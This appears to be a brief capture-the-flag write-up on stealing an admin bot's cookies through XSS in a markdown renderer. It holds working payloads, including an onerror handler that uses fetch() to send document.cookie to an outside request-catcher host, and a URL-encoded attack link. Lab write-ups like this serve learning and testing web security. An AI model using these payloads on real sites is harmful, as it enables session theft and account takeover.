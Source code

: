 # The challange's idea is to steal the admin's cookies via XSS

## To achieve XSS we will exploit the markdown rendering

Upon Inspecting a simple payload from **Hacktricks**

https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/xss-in-markdown.html

The first POC we can see is

``` ![Value in HTML](<https://www.example.com/image.png>)```

After workinng and seeing that "Value in HTML" in indeed reflected in HTML

After that let's try to achieve XSS

``` ![Value" onerror="alert()](https://www.example.com/image.png) loli))```

After that we can steal the Bot's cookies via fetch() and **document.cookie**

```![Uh" onerror="fetch('https://wh0am1.requestcatcher.com/loli'+document.cookie)](https://www.example.com/image.png) loli))```

Now to get the flag send the following URL to the **admin**

```http://web:3000/?markdown=%21%5BUh%22+onerror%3D%22fetch%28%27https%3A%2F%2Fwh0am1.requestcatcher.com%2Floli%27%2Bdocument.cookie%29%5D%28https%3A%2F%2Fwww.example.com%2Fimage.png%29+loli%29%29%0D%0A```

